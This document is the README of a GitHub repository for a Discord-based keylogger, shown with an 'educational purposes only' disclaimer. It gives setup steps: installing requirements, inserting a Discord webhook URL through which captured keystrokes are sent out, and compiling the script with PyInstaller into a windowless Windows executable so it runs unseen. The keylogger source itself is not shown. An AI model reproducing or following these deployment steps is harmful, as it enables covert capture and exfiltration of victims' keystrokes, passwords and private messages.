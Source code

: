# simplediscordkeylogger

## Disclaimer

> Information and code provided on this repository are for educational purposes only. The creator is no way responsible for any direct or indirect damage caused due to the misusage of the information. Everything you do, you are doing at your own risk and responsibility.

# how to use

Install the required modules:

```shell
pip install -r requirements.txt
```
 paste your discord webhook here 
 ```shell log_send = Webhook('enter your webhook url here')```
 
You can compile Python code into Windows executable (.exe) using PyInstaller:

```shell
pyinstaller -F -w main.py
```
